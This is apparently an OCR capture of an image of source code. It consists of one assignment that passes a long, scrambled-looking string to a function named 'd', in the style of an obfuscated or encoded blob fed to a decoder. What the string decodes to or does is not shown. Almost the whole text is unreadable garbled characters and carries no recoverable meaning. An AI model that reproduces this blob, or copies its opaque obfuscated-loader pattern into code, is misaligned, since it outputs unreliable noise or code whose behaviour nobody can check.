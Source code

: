 l=d(n,"zhqrpnbo_{Pm+wiC+mrCwwo+h++nn{C_{orprnwm{_qi+{oo+q_{nnih}++Pp{i__oqpr)w+_pqp+qhrwPPbrq_CrbCr+hn{iw{qrownbo+nmqnqPq_pqn+morR{{wpwPrMomhppir_qhChmwmonhn{Cb1Cq{{rpwCob{bnxwroqhhPimbb{XnnCrhCh_iqP+_btCwPPpP{nnbhp+bbnC+{prnwComqGm_pwCmhnmCnqCh{LqwrhCq_pqm+bohZ__{poip{jPpniih_ghCm+iqohqbPinCCi_CrwwhbmiOophrmmnoCp{{rownbCeCP+piCq_wqP+_qr+bbyCC{imhrwww_bhin{Cw{brnwpohbPrP+pbbkbqiwwbmxPP{pbpb-i{mpqiCrnCbmCbhCp{mpq_innqhPww__rhnmpnrCIComhpmCh_n;owobw:hbwNPP{5bPipriq_hhih_wPoqhp+FUwwpPkq+noh{{prrwqbCb{rownonhhPrCwCh_mhimPb+C+P{Cnimo+himwhVCh{riww_ophwmwpwimpbqw+{on1obC+iopLmPPp{ibiqPwp+ionwhP+_ih{rhimwn+C{e:+hnwB({qri++qbh{P+p_Pqb+q{+mbPxqPiC+b_h{Pnppir_Zo+pqmP_*w;{obriCp+CrmibihnborhiP{wi+n/C+_wq++mb_nCqrmmbq*PPiroioo{wr{PbbCqhw+rnPC{{_rnrqCn{oibPwo{Nnrui^bwZ+Pmp_p_<pPlpwih_nhwonpoC+{Cpbw+o2qqm+nio{q5mbnnCp{h_mnbi__oihP_op!>qmwob_%oPbprnhsnPqrbw+oowh{hbrVq_iqCwbC_PnrnwporhAE_wnbmhoP{pwinrw>h+_bP9qPPr+bpxmPhp9wCo+oprpw+op++{rnCimhbmwnrCq{hqiq_iw_CqC+inim+bw+_ohFnPppri7wnP_ppi _qh9birn3h_wm_b+Cn{prrwv+n{hqm+ibnmC_Bp{ww_iqio{pmGYPrpPitopqb+KbqowqpmPn{C_{n{+pmC{_Crnw_qrwpqCw+b+amPPpopigimqppw+rbH_m{nCCo{pppwi_ {wr{w_oohbmnrpbqwqrqw+bC&iPwpPnhhqPrn/i+_iw_minmk{Pr+hbiCi{wr+w{w+{ph_irn4twPCnqiP_{irPPobvqqww_bPR{P_pnp+C{PqpmioonwrPnbnCh{wrqnmCC{_rowbi___qnmmnCCor9ibbw<+Pmp_pr8w{mp+imroC{+Pb_^o{mrCwoqC*hmbn{s4{bqPw+obh_rriRoTLCPipmppH+Pqpiiq{rw{{{bP={{bp{wC_b{Cnrw+omhPmoP+o+hbb_riC__Prowobikbb^rqio_Prh+onmMwPop{bp3PPhpMwCo+oirpibqwCp+dp+ooqCmpnrCq_C{bnqib_nqroipnhh{wCPwhr_wCP_nPCoPqrCwboihrPCnhCmnpm_niCn{prrwgwi_php+nbCiimb+m_pX_Popbirw+PirPwo__qbmqbqPC_hrDwiophPmw>_+i{Crq_ppCloPqpoCp_rPmnri__oqb+rm+_ihPmob_Db{bCLP^C+m+r{w_oohphpw+opBbm+=r+P{bqqoCqbirmhp{ww_qqo+nnomnPqpq{qbhhroirmC+_irpwbbiwhrniooqhhmSpwnphnPCpriCr+BomCnPCCP+rm{nboqqmnnpCnPhm+bpC{{_rowp+{{mqi+Pob+r_Pnbiq5w+ipPi{__qnrrChoiho+on_C_nqqoPqqCwb{rbhC{_wrqwoontobnnqCqpqhh+rqiimP+riip_bhi_hin{hqq+hb&Cwep+pbhCr{qp:inqP41P{n{Pbnomqn+iC_iqw+P+{_bqP+qhPin{wriwoo_qwphiPoihwm+n{nqhrmqsP+i{nro+CooO{rhwibiQwP+_+brwi{+rnmbbbh+PppiCroprn+LrC{wprwPo{h_mn+2rni_+^nPCb__m0bmiw_+qm+_iiowrqmPbm&P{mp{wwooi+_ThC+xnijnPrpqi4oPh{mmn+Co{wrpwpoo+ior^mPPp{ibi+Pqpiw__qq_pqi+oChimwnPnJh{mmbrPPbCrPw+bCh{mowhoo&iPwp+i{wiPipiwC_oh{+rip{>qh+?nCC+=ompbhjh_irPwCoo?+borbCo{rmhb{ii_wq++{+q{pqJmwbig+{_p_{nbhq_+pnnCnPhiimP_nhimipiCPP7ib{oCqPmqC+ibwZPkPmqrCib{rC{mPbr(n{_rCibnqhrwh_rqqm{nhCq{+r_wwon^Pm_wqoPTCPipwiPCqP+piw+rPQq+mppCmqrwpb3CC{irmrqiC{Ci+mwbm4+Pw/ow{_irhw_biXqmppiC1Emmrp_io_bqrh+iioPho+_bbCbn/}qn+eP{{r_woopowrn+ComG{mnnniq_+wC{Cbhe{Ppp_boumPppriqoCoophi(_qqqr+iho{h_monpnPh4mbRnwPnnmTn_iw_+qm+_+bo+qr+nnP&{{mrbwC*hPPriwwo+h{hrwioPh_mwnpCe{pqPwoCh{{qi+wb+s{gm+hor4CP+C_mC_mhopqiPoChimwnPbhhnmnn{xrp{h!w+b_{rpwwcbCLiPmPpoh3Q{wpmwCr{^_m_bbCbnpqrwm_mqPmfbhPwo+rpip_rkwm{pCibhqm+pCii_wqPqhi+_Pq{mCn+0+nohiiPobPhnhwiowh+m{wnohhoP+niCP{nibmPoqD+m_pbCq{qhC+{iP{pqo+bbnRqC++hnnQg{oC_irqCCb+qpio{q{mbnnCp{h__pnCnpqhr+hbqYrnwqCip_oqnm{bmRnPo+qbCCC{irwwPwi{nqww{oih_mn!o++{prb+bbohpqiwpbm9PP{pbriCPn_hCin_ph_phC_oihwm+n{pihPmpnoiip_hPwqbbhoPmpmiC_owCmhbb;{m2pbwP_+qb+_ir{hqFmCniCmCn+fbqCn{Crw_{nC5_m_noiw{qrpwpii{nqm+Pb{Kb?wm+bPuMPbp{{ppbPlp{wwo+hmm_mr_phob{rpi+_oq+w{b_{Ur_+wb+,mP_PqboCmPmrw{oniqPmbiS_9hC+on+Cm{ProqwCb{_p7i